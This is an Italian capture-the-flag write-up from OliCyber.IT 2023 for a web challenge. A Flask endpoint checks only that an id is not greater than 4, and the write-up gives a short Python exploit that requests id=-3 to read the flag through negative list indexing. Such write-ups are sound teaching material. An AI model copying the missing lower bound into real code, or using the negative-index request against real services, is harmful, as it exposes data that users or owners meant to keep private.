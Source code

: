 # OliCyber.IT 2023 - Selezione territoriale

## [web-2] Gabibbo's friend (306 risoluzioni)

Nella challenge si possono richiedere delle immagini, ma solo se l'id è minore di 5. In caso contrario viene censusato il risultato della richiesta. DEVICE_MEMORY è un array di 8 elementi, di cui il sesto è la flag.

```python
@app.route('/get-picture')
def getPicture():
    id = int(request.args['id'])

    if (id > 4):
        return '???'

    return DEVICE_MEMORY[id]
```

### Soluzione

Si possono richiedere numeri negativi, in python -1 è l'ultimo elemento di un array, -2 il penultimo e così via. Quindi si può richiedere l'immagine con id -3, che è la flag.

### Exploit

```python
import requests
r = requests.get(f"{URL}/get-picture?id=-3")
print(r.text)
```
